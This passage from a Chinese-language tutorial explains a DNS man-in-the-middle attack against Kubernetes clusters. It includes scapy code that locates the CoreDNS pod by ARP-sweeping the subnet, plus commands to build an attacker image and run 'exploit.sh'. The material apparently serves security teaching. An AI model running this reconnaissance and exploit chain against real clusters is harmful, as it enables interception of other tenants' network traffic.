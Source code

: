 然后直接查询 ARP 缓存，获得网桥 MAC 地址。如果没有，可以先向网桥发送一个 ARP 请求：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>arp -n<br>``` |

**其次是 Core DNS Pod** 的 IP 和 MAC 地址。结合背最知识部分 DNS 内容可知。pod 内部仅仅能拿到一个 kube-dns 服务的 IP，通常是 10.96.0.10。但是，如果攻击者 pod 向该服务发送一个 DNS 查询请求，实际上是服务背后的 Core DNS Pod 回复 DNS 响应的（经过 DNAT 处理，目的地改为 CoreDNS Pod)。而 DNS 响应又是一个 UDP 报文，因此我们可以从中提取到 CoreDNS Pod 的 MAC 地址。但是，DNS 响应又会被进行 SNAT 处理，其中的 IP 地址被重新替换为 kube-dns 服务 IP 10.96.0.10。所以，以上步骤只能让攻击者拿到 CoreDNS Pod 的 MAC 地址。

所以，攻击者可以向整个子网的每个 IP 发出 ARP 请求，收集它们的 MAC 地址，然后与前面获得的 CoreDNS Pod 的 MAC 地址进行比对，如果一致，则说明对应 IP 即为 CoreDNS Pod 的 IP。

相关代码如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```python<br>def get_coredns_pod_mac_ip(kube_dns_svc_ip, self_ip, verbose):<br>    mac = srp1(Ether() / IP(dst=kube_dns_svc_ip) /<br>               UDP(dport=53) / DNS(rd=1, qd=DNSQR()), verbose=verbose).src<br>    answers, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff") /<br>                     ARP(pdst="{}/24".format(self_ip)), timeout=4, verbose=verbose)<br>    for answer in answers:<br>        if answer[1].src == mac:<br>            return mac, answer[1][ARP].psrc<br><br>    return None, None<br>``` |

### [](#44-%E5%A4%8D%E7%8E%B0)4.4 复现

代码：[云原生网络攻击](https://github.com/Metarget/cloud-native-security-book/tree/main/code/0405-%e4%ba%91%e5%8e%9f%e7%94%9f%e7%bd%91%e7%bb%9c%e6%94%bb%e5%87%bb)

模拟构建攻击者镜像：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker build -t k8s_dns_mitm:1.0 .<br>``` |

使用 exploit.sh 分别部署 attacker 和 victim pod：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>./exploit.sh<br>``` |
